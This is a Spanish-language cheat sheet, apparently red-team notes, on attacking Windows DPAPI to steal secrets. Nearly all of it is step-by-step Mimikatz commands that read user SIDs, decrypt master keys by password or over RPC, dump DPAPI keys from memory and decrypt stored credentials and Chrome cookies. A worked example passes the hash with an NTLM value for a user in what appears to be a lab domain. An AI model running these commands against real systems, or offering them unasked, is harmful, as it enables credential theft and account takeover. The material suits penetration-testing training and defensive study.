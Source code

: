 # DPAPI secrets Attack
## Explicación
- DPAPI es un mecanismo de cifrado de datos que se utiliza para proteger los datos del usuario en Windows.
- Aplicaciones como Chrome, Outlook, etc. utilizan DPAPI para proteger las contraseñas.

### Que se necesita para hacer este ataque
- El SID del usuario
- El masterkey del usuario
- La contraseña del usuario
- `C:\users\<user>\appdata\local\microsoft\credentials\<blob>` (blob es un archivo binario que contiene la masterkey cifrada con la contraseña del usuario)
- `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` (contiene el masterkey cifrado con la contraseña del usuario)

### Pasos
1. Obtener el SID del usuario: `whoami /user` o `wmic useraccount get name,sid`
2. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\local\microsoft\credentials\<blob>`
3. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\`
4. Mimikatz: `dpapi::cred /in:C:\users\<user>\appdata\local\microsoft\credentials\<credential blob>`
- Nos guardamos `guidMasterKey` y `pbData`
- Revisar `c:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` para ver si hay un archivo con el mismo `guidMasterKey`
- Si lo hay, usamos `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<MasterKey blob> /rpc`

### Otros comandos
- `sekurlsa::dpapi` conseguimos las masterkeys cifradas con la contraseña del usuario
- Ahora podemos hacer `dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca 0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b`

### Ejemplo:

- `mimikatz sekurlsa::dpapi`: Obtenemos las masterkeys cifradas con la contraseña del usuario
- `sekurlsa::pth /user:epugh /domain:rastalabs.local /ntlm:326457b72c3f136d80d99bdbb935d109 /impersonateprocess`: Nos logeamos como el usuario que tiene la masterkey
- `mimikatz dpapi::masterkey /in:C:\Users\epugh\AppData\Roaming\Microsoft\Protect\S-1-5-21-1396373213-2872852198-2033860859-1151\7dc6a492-36e2-4c2d-be66-ba29d263dda2`: Obtenemos la masterkey cifrada con la contraseña del usuario
- `mimikatz	dpapi::masterkey /in:C:\Users\epugh\AppData\Roaming\Microsoft\Protect\S-1-5-21-1396373213-2872852198-2033860859-1151\7dc6a492-36e2-4c2d-be66-ba29d263dda2 /rpc`: Obtenemos la masterkey cifrada con la contraseña del usuario con rpc, usa el servicio lssass
- `dpapi::cred /in:C:\users\epugh\AppData\Local\Microsoft\Credentials\<CRED_GUID> /masterkey:<MASTERKEY_HEX>` : Obtenemos las credenciales cifradas con la masterkey


### Referencias
- [Fortra](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz)
- [Hack Tricks Wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html?highlight=dpapi#master-keys)
